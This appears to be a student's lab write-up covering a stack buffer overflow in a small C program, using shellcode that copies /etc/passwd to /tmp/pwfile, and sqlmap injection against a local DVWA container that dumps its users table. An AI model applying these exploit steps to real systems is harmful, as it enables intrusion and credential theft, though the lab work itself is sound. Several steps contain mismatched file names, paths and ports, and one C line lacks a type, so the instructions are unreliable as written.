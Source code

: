 # Lab #1,22110015, Nguyen Manh Cuong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:

## 1.Create a Vulnerable C Program

```bash
nano redundant_code.c
```
![image](https://github.com/user-attachments/assets/2e434b7b-7ddf-4675-8e55-54fbc71d3579)

Create a C program that contains a buffer overflow vulnerability

## 2.  Compile the C Program

```bash
gcc -o redundant_code redundant_code.c -fno-stack-protector -z execstack
```

## 3. Create the Assembly Payload

* Now, create an assembly program that will copy /etc/passwd to /tmp/pwfile. Here’s the assembly code

```bash
nano asm_code.c
```
![image](https://github.com/user-attachments/assets/d431ef63-ede5-4b1c-ad05-3e1ba676f77f)

## 4. Compile the Assembly Code 

* Save the assembly code in a file named asm_code.asm, and then assemble and link it:

```bash
nasm -f elf32 -o asm_code.o asm_code.asm
ld -m elf_i386 -o asm_code asm_code.o
```

## 5. Load redundant_code  to gdb

```bash
gdb ./redundant_code
```
You need to find the address of the `redundant_code` binary in memory. This address will be used in the exploit string to redirect execution to the payload. To do this, you can use a debugger like `gdb`:
## 6. Finding the Address of the Payload


```bash
 break redundant_code
run $(python -c "print('A'*72)")
p &buffer
```

![image](https://github.com/user-attachments/assets/1c2622c2-8880-49e1-8d64-32e16e20a848)


Inside `gdb`, set a breakpoint in the `redundant_code`, run the program with a dummy argument, and find the address of your payload. This will typically be after the buffer size.

Make a note of the address is `0xf7fcc5b4`; you'll use it in the next step.

## 7. Execute the Vulnerable Program with the Payload




Run the vulnerable program with the crafted payload:

```bash
./redundant_code "$(python -c "print('a'*72 + '\xb4\xc5\xfc\xf7')")"
```


## 8. Verify the Output

```bash
cat /etc/outfile
```

![image](https://github.com/user-attachments/assets/ef6984a4-6a33-45d3-80b7-aae79745d59f)


![image](https://github.com/user-attachments/assets/56fa25ea-0a95-44ba-a009-1a78bd406e6a)






**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
1.  Pull the DVWA Docker image
```bash
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```
![image](https://github.com/user-attachments/assets/54f77e65-1050-4959-aac1-4685fc0c55b7)

2. Access DVWA
Open a web browser and go to: http://localhost
Log in with the default credentials:

Username: admin
Password: password

![image](https://github.com/user-attachments/assets/0a765301-2d1b-44b7-a8ef-5b020f4ce2d9)

3. Install SQLMap in WSL

```bash
wsl
sudo apt install sqlmap
```

4. Fetch the url of webiste you want to attack

![image](https://github.com/user-attachments/assets/7990b9c9-d27f-4129-be3f-03c756477149)


Enter any value for this to retun a url : `http://localhost/vulnerabilities/sqli/?id=1`

5. Get information about all available databases

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --dbs
```

![image](https://github.com/user-attachments/assets/0a9fd479-4d89-43ba-9f3a-56db673d3400)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

## 1. Choice Database is dvwa and Use sqlmap to get table 

```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa --tables
```

![image](https://github.com/user-attachments/assets/13a09125-e859-4705-8e9c-50f30622f3be)

## 2. Choice Database is Users and  use sqlmap to get  users information


```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli" --cookie="PHPSESSID=8i0tfhbnhtb8oe03hmukldr8n3; security=medium " --data="id=1&Submit=Submit" --batch -D dvwa -T users --dump
```

![image](https://github.com/user-attachments/assets/70f0eef2-adaa-4242-b3d2-279322f1da2b)





**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:



